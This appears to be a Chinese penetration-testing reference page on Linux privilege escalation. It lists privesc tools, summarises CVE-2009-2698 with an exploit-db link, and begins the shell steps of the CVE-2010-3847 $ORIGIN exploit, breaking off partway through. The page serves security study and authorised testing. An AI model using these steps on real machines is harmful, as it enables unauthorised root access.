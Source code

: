 **提权辅助工具**
- [mzet-/linux-exploit-suggester](https://github.com/mzet-/linux-exploit-suggester)
- [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)
- [rebootuser/LinEnum](https://github.com/rebootuser/LinEnum) - 辅助信息收集脚本
- [DominicBreuker/pspy](https://github.com/DominicBreuker/pspy) - 在没有 root 权限的情况下监视 linux 进程
- [TH3xACE/SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER) - 一个用来识别和利用 sudo 规则的错误配置和漏洞的工具
- [liamg/traitor](https://github.com/liamg/traitor) - Automatic Linux privesc via exploitation of low-hanging fruit e.g. gtfobins, pwnkit, dirty pipe, +w docker.sock

---

> 以下工具长期未更新,不推荐
- [sleventyeleven/linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker) - 长期未更新，不推荐
- [lucyoa/kernel-exploits](https://github.com/lucyoa/kernel-exploits) - 长期未更新，不推荐
- [Kabot/Unix-Privilege-Escalation-Exploits-Pack](https://github.com/Kabot/Unix-Privilege-Escalation-Exploits-Pack) - 长期未更新，不推荐
- [InteliSecureLabs/Linux_Exploit_Suggester](https://github.com/InteliSecureLabs/Linux_Exploit_Suggester) - 长期未更新，不推荐

**CVE-2009-2698**
- 简介

    在 2.6.19 之前 Linux 内核中的(1) net/ipv4/udp.c 和(2) net/ipv6/udp.c 中的 udp 实现中的 udp_sendmsg 函数允许本地用户通过涉及 MSG_MORE 标志和 UDP 套接字的向量获得特权或导致拒绝服务(空指针取消引用和系统崩溃)。

- 影响范围
    - Linux kernel < 2.6.19
    - CentOS 4.4/4.5
    - Fedora Core 4/5/6 x86

- POC | Payload | exp
    - [Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora Core 4/5/6 x86) - 'ip_append_data()' Ring0 Privilege Escalation (1) - Linux_x86 local Exploit](https://www.exploit-db.com/exploits/9542)

**CVE-2010-3847**
- POC | Payload | exp
    ```bash
    # 在/tmp下创建可控制的目录
    $ mkdir /tmp/exploit
    # 链接到suid二进制程序以更改$ORIGIN的定义

    $ ln /bin/ping /tmp/exploit/target
    # 打开到目标二进制程序的文件描述符

    $ exec 3< /tmp/exploit/target
    # 现在可通过/proc访问描述符

    $ ls -l /proc/$$/fd/3
    lr-x------ 1 taviso taviso 64 Oct 15 09:21 /proc/10836/fd/3 -> /tmp/exploit/target*
    # 删除之前所创建的目录
